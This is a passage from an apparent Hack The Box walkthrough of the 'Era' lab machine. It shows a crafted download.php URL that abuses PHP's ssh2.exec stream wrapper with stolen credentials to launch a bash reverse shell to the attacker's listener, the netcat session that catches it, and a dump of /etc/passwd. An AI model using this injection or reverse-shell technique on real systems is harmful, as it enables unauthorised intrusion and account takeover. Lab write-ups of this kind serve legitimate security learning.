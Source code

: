 Then come to download page to make a malicious link
```
http://file.era.htb/download.php?idT&show=true&format=ssh2.exec://yuri:mustang@127.0.0.1/bash -c "bash -i >& /dev/tcp/10.10.14.6/4444 0>&1";

http://file.era.htb/download.php?id=54&show=true&format=ssh2.exec://yuri:mustang@127.0.0.1/bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.6%2F4444%200%3E%261%22;
```

Then you can get the shell as `yuri`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Era]
└─$ nc -lnvp 4444             
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.79] 33096
bash: cannot set terminal process group (7161): Inappropriate ioctl for device
bash: no job control in this shell
yuri@era:~$ id
id
uid=1001(yuri) gid=1002(yuri) groups=1002(yuri)
yuri@era:~$ 

```

I need to check `/etc/passwd` to find the target to switch
```
yuri@era:~$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
usbmux:x:106:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin
eric:x:1000:1000:eric:/home/eric:/bin/bash
ftp:x:108:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
yuri:x:1001:1002::/home/yuri:/bin/sh
_laurel:x:999:999::/var/log/laurel:/bin/false

```
